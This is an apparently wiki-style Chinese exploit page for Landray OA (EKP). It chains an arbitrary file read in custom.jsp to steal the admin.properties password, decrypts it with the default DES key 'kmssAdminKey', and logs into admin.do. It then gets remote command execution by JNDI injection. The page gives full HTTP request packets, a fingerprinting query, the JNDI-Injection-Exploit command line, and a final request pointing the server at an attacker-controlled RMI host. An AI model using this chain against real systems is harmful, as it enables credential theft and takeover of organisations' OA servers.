



# 蓝凌OA admin.do JNDI远程命令执行

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 即可利用 JNDI远程命令执行获取权限

## 漏洞影响

<a-checkbox checked>蓝凌OA</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Landray-OA系统"</a-checkbox></br>

## 漏洞复现

利用 `蓝凌OA custom.jsp 任意文件读取漏洞` 读取配置文件

```plain
/WEB-INF/KmssConfig/admin.properties
```

发送请求包

```plain
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```


获取password后，使用 DES方法 解密，默认密钥为 `kmssAdminKey`




访问后台地址使用解密的密码登录

```plain
http://xxx.xxx.xxx.xxx/admin.do
```




<a-alert type="success" message="使用工具执行命令: https://github.com/welk1n/JNDI-Injection-Exploit" description="" showIcon>
</a-alert>
<br/>

```plain
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

运行工具监听端口 ping dnslog测试 命令执行 (蓝凌OA 默认使用的是 JDK 1.7)

```shell
POST /admin.do HTTP/1.1
Host: 
Cookie: JSESSIONID=90EA764774514A566C480E9726BB3D3F; Hm_lvt_9838edd365000f753ebfdc508bf832d3=1620456866; Hm_lpvt_9838edd365000f753ebfdc508bf832d3=1620459967
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Origin: 
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/cbdsdg
```


